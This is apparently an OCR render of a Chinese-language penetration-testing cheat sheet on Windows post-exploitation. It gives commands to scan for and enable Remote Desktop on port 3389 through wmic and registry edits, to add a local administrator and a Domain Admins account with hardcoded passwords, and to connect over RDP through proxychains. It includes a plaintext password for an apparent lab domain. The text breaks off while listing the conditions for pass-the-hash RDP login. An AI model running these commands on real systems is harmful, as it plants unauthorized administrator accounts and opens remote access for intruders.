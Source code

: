 ## Windows

https://blog.csdn.net/weixin_43847838/article/details/121971441

### 3389 远程桌面连接

```bash
# nmap 探测3389端口 是否开启
nmap -p 3389 -Pn -sT 192.168.52.141

# 打开 3389 远程桌面端口
wmic RDTOGGLE WHERE ServerName=\'%COMPUTERNAME%\' call SetAllowTSConnections 1
# 3条命令 开启3389端口 一般使用第一条就可以
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 3389 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 3389 /f

# 确认查看远程连接端口是否开启
netstat -an|find "3389"

# 查看注册表3389是否为远程桌面端口
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

# 添加用户 密码别太简单，可以会因为密码策略而添加不进
net user Ki1ro 1qaz!QAZ /add
# 查看用户有没有添加进行
net user
# 添加进管理员组
net localgroup administrators Ki1ro /add

# 添加域管理员用户
net user Ki1ro qwer1234! /add /domain
net group "Domain Admins" Ki1ro /add /domain
net user /domain

# 远程桌面连接
proxychains4 rdesktop 192.168.52.141

proxychains4 rdesktop 172.22.8.31 -u Aldrich -d xiaorang.lab -p 'Ald@rLMWuy7Z!#'

```

### 利用哈希传递登录远程桌面

应具备条件：

- 远程主机开启 “受限管理员” 模式
- 用户位于该远程主机的管理员组
- 目标用户的哈希
